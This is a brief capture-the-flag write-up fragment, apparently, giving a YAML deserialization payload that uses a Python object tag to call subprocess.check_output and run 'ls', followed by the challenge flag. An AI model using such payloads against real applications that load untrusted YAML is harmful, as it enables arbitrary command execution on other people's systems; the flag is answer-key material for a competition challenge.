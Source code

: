 yaml deserialization
payload: 
```
yaml: !!python/object/apply:subprocess.check_output
- "ls"
```
Flag : `KCTF{d38787fb0741bd0efdad8ed01f037740}`